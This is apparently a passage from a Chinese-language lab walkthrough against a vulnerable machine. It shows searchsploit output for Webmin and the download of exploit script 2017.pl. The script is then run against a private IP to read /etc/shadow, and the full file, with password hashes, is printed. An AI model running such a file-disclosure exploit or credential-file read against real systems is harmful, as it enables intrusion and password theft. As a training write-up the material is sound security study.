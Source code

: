     ------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    ------------------------------------------------------------------- ---------------------------------
     Paper Title                                                       |  Path
    ------------------------------------------------------------------- ---------------------------------
    WebMin - (XSS BUG) Remote Arbitrary File Disclosure                | docs/english/13117-webmin---(xss
    ------------------------------------------------------------------- ---------------------------------
    ```

-   下载对应的poc文件 --> `searchsploit webmin -m 2017.pl `

-   使用脚本执行任意文件读取

-   ```shell
    └─$ ./2017.pl 192.168.2.138 10000 /etc/shadow 0                                                 
    WEBMIN EXPLOIT !!!!! coded by UmZ!
    Comments and Suggestions are welcome at umz32.dll [at] gmail.com
    Vulnerability disclose at securitydot.net
    I am just coding it in perl 'cuz I hate PHP!
    Attacking 192.168.2.138 on port 10000!
    FILENAME:  /etc/shadow
    
     FILE CONTENT STARTED
     -----------------------------------
    root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
    daemon:*:14040:0:99999:7:::
    bin:*:14040:0:99999:7:::
    sys:*:14040:0:99999:7:::
    sync:*:14040:0:99999:7:::
    games:*:14040:0:99999:7:::
    man:*:14040:0:99999:7:::
    lp:*:14040:0:99999:7:::
    mail:*:14040:0:99999:7:::
    news:*:14040:0:99999:7:::
    uucp:*:14040:0:99999:7:::
    proxy:*:14040:0:99999:7:::
    www-data:*:14040:0:99999:7:::
    backup:*:14040:0:99999:7:::
    list:*:14040:0:99999:7:::
    irc:*:14040:0:99999:7:::
    gnats:*:14040:0:99999:7:::
    nobody:*:14040:0:99999:7:::
    dhcp:!:14040:0:99999:7:::
    syslog:!:14040:0:99999:7:::
    klog:!:14040:0:99999:7:::
    mysql:!:14040:0:99999:7:::
    sshd:!:14040:0:99999:7:::
    vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
    obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
    osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
    yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
    